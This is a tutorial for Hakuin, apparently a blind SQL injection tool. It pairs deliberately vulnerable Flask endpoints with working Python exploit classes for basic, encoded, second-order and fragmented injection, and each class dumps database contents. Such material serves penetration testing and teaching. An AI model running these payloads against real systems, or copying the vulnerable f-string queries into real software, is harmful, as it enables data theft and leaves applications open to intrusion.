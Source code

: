 In this tutorial, we introduce Hakuin's most common features and show you how to use it to handle a variety of challenges you may encounter while exploiting BSQLI.


#### Basic Concepts
Consider a simple Flask application with the following endpoint:
```python
@app.route('/users')
def users():
    name = request.args['name']
    query = f'SELECT * FROM users WHERE name="{name}"'
    
    with DB.connect() as conn:
        user = conn.execute(text(query)).fetchone()[0]

    if user:
        return 'found', 200
    return 'oops', 404
```

The `name` parameter is not sanitized, so the endpoint is vulnerable to BSQLI.

To exploit the vulnerability, you need to instruct Hakuin on how to inject its queries. This is done by deriving the `Requester` class and overriding the `request` method. Aside from injecting queries, the method must determine whether they resolve to `True` or `False`.
```python
from hakuin import Requester

class SimpleRequester(Requester):
    async def request(self, query, ctx):
        # inject the query
        payload = query.render(ctx)
        name = f'XXX" OR ({payload}) --'
        url = 'http://target.com/users'
        async with aiohttp.request('GET', url, params={'name': name}) as resp:
            # determine the query result
            return resp.status == 200
```

Pay attention to the glue code in `name=XXX" OR ({payload})`. The`XXX"` part escapes the string literal in `WHERE name="{name}"`, the `--` turns the extra `"` into a comment to avoid breaking the SQL syntax, and the `OR ({payload})` ensures the SQL statement resolves to true if the payload is logically true and vice versa. There are many ways to glue the payload to the SQL statement, be creative!

Also, notice that there are many ways to infer the boolean result of the injected query. In the example above, we checked, whether the `resp.status == 200`, but we could just as well check whether the response includes the string `"found"`.

Now that everything is set, we can start dumping the database (DB). This is done via the `Extractor` class. The `Extractor` requires a `Requester` and the name of the DB management system (DBMS) it should generate queries for. Hakuin currently supports SQLite, MySQL, Postgres, MsSQL, and Oracle (experimental), but will soon include more engines.

Extracting table names can look like this.
```python
import asyncio
import aiohttp
from hakuin import Extractor, Requester

class SimpleRequester(Requester):
    ...

async def main():
    requester = SimpleRequester()
    ext = Extractor(requester=requester, dbms='sqlite')
    data = await ext.extract_table_names()
    print(data)

asyncio.run(main())
```

Although simple, this approach can be used to exploit most BSQLI vulnerabilities. Keep reading.


#### Payload Transformations
Let's spice things up. Look at the endpoint bellow.
```python
@app.route('/users')
def users():
    data = request.args['data']
    data = base64.b64decode(data.encode()).decode()
    name = json.loads(data)['name']
    query = f'SELECT * FROM users WHERE name="{name}"'
    ...
```

Again, the endpoint is vulnerable, but this time the user input goes through a series of transformations before it is inserted into the SQL statement.

The challenge here is to correctly prepare the input to hit the vulnerability. An example exploit is shown below.
```python
class RequesterWithTransformations(Requester):
    async def request(self, query, ctx):
        payload = query.render(ctx)
        data = json.dumps({'name': f'XXX" OR ({payload}) --'})
        data = base64.b64encode(data.encode()).decode()
        url = 'http://target.com/users'
        async with aiohttp.request('GET', url, params={'data': data}) as resp:
            return resp.status == 200
```



#### Higher Order Injection Vulnerabilities
Sometimes, the vulnerable endpoint is not the same as the one used to upload payloads. See these endpoints:
```python
SESSION = {
    'name': None,
}

@app.route('/register', methods=['POST'])
def register():
    SESSION['name'] = request.args['name']
    return 'ok', 200

@app.route('/profile')
def register():
    name = SESSION['name']
    query = f'SELECT * FROM users WHERE name="{name}"'
    
    with DB.connect() as conn:
        user = conn.execute(text(query)).fetchone()[0]

    if user:
        return 'found', 200
    return 'oops', 404
```

Here, the user-provided `name` is stored on the server via the `/register` endpoint and only then it is inserted into the SQL statement via `/profile`.

This second-order vulnerability can be exploited with the following code:
```python
class SecondOrderRequester(Requester):
    async def request(self, query, ctx):
        # upload the payload
        payload = query.render(ctx)
        name = f'XXX" OR ({payload}) --'
        url = 'http://target.com/register'
        async with aiohttp.request('post', url, params={'name': name}):
            pass

        # hit the vulnerable endpoint and infer the result
        url = 'http://target.com/profile'
        async with aiohttp.request('get', url) as resp:
            return resp.status == 200
```


#### Fragmented Injection
In some cases, the vulnerable application may impose input limitations, such as length checks:
```python
@app.route('/users')
def users():
    first_name = request.args['first_name']
    last_name = request.args['last_name']
    assert len(first_name) < 50 and len(last_name) < 50, 'Name too long.'
    query = f'SELECT * FROM users WHERE first_name="{first_name}" AND last_name="{last_name}"'
    ...
```

The main challenge here is dumping the DB with inputs shorter than 50 characters. One approach is to shorten the injected queries and adjust the extraction logic, but there is a simpler way. We can take advantage of the fact that both `first_name` and `last_name` are inserted into the same SQL statement. The trick is to split the payload into two smaller parts, called _fragments_, inject them through the two inputs, and modify the glue code to avoid breaking the syntax. Here’s how we can exploit it:
```python
class FragmentedRequester(Requester):
    async def request(self, query, ctx):
        payload = query.render(ctx)
        frag_1, frag_2 = payload.split('FROM')
        frag_2 = f'FROM {frag_2}'

        url = f'http://target.com/users?first_name=XXX" OR ({frag_1} /*&last_name=*/ {frag_2}) --'
        ...
```

Notice that we split the query at the `FROM` keyword. This prevents the query keywords from being split into multiple fragments, which would break the syntax (e.g., `SELECT column FR` and `OM table`). Additionally, `FROM` is typically near the middle of queries, making it a reasonable splitting point to bypassing length checks.

The glue code has become more complex. As before, the `XXX"` part escapes the string literal, `OR ({frag_1} ... {frag_2})` propagates the boolean query result through the vulnerable statement, and `--` comments out the extra `"`. However, in this case, the glue code must also handle the additional statement code between the two vulnerable inputs, specifically `" AND last_name="`. The easiest way to handle this is by commenting it out using `/* ... */`. Here’s a practical example:
```SQL
-- payload: SELECT column < 42 FROM table LIMIT 1 OFFSET 1
-- frag_1: SELECT column < 42
-- frag_2: FROM table LIMIT 1 OFFSET 1
-- first_name: XXX" OR (SELECT column < 42 /*
-- last_name: */ FROM table LIMIT 1 OFFSET 1) --

-- statement before injection:
SELECT * FROM users WHERE first_name="{first_name}" AND last_name="{last_name}"

-- statement after injection:
SELECT * FROM users WHERE first_name="XXX" OR (SELECT column < 42 /*" AND last_name="*/ FROM table LIMIT 1 OFFSET 1) --"
```



#### More Tutorials Coming Soon
So far, we only explained how to customize the injection and inference logic, but Hakuin allows you to customize everything, even the query generation and extraction logic. We will cover these topics soon.

Additionally, we are writing a high-level overview of the optimization methods used by Hakuin under the hood. The document will be published once ready. Stay tuned.
